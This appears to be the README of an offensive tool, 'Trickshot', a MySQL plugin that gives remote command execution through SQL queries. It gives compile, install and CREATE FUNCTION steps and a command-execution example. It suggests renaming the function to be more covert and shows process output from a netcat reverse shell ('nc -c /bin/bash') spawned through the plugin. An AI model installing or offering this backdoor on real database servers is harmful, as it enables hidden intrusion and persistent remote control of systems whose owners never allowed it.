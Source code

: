 # Trickshot
MYSQL plugin that allows RCE through a query

# Installation
To install this lovely plugin first you must first compile it to a shared object like below.

```
gcc -I/usr/include/mysql -shared -fPIC -o tg.so trickshot.c
```

Then you must copy the `.so` file to the MYSQL plugin directory like so:

```
cp -f tg.so /usr/lib64/mysql/plugin/
```

Then remote into your MYSQL server and run the following query:

```
CREATE FUNCTION trickshot RETURNS STRING SONAME "tg.so";
```

Note: the `trickshot` portion of the MYSQL command can be swapped out to be more covert. The plugin is now installed.

# Usage
To use this plugin simply run the `trickshot` function inside a MYSQL query. An example is shown below.

```
MariaDB [(none)]> select trickshot("whoami");
+---------------------+
| trickshot("whoami") |
+---------------------+
| mysql               |
+---------------------+
1 row in set (0.04 sec)
```

For those curious, if one were to setup a reverse shell from this exploit and a blue team member ran `ps -fax` then they would see something like the following output while the shell was active.

```
 22077 ?        Ss     0:00 /bin/sh /usr/bin/mysqld_safe --basedir=/usr
 83370 ?        Sl     0:00  \_ /usr/libexec/mysqld --basedir=/usr --datadir=/var/lib/mysql --plugin-dir=/usr/lib64/mysql/plugin --log-error=/var/log/mariadb/mariadb.log --pid-file=/var
 83526 ?        S      0:00      \_ sh -c nc -c /bin/bash localhost 4444 2>&1
 83527 ?        S      0:00          \_ nc -c /bin/bash localhost 4444
 83528 ?        S      0:00              \_ /bin/bash
```

# Resources
[The official MYSQL UDF References](https://dev.mysql.com/doc/refman/8.0/en/adding-udf.html)
